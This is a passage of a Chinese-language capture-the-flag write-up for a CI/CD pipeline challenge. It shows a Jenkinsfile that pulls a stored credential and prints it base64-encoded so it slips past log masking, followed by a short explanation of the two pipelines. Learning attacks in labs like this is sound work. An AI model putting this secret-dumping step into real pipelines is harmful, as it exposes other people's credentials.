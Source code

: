 拿到有权限的 token 后拉取仓库，之后构建利用 Jenkinsfile 获取 flag。

```
pipeline {
    agent any
    stages {
        stage ('poc') {
          steps {
              withCredentials([usernamePassword(credentialsId: 'flag2', usernameVariable: 'flag2', passwordVariable: 'TOKEN')]) {
                  sh 'echo $TOKEN | base64'
              }
          }
        }
    }
}
```

### 为什么？

登录 admin 可以看到这个题有两个管段 wonderland-caterpillar-test 通过 fork 合并触发，wonderland-caterpillar-prod 指 没有 PR 的分支

![image-20240327163926504](attachments/image-20240327163926504.png)

![image-20240327173956456](attachments/image-20240327173956456.png)
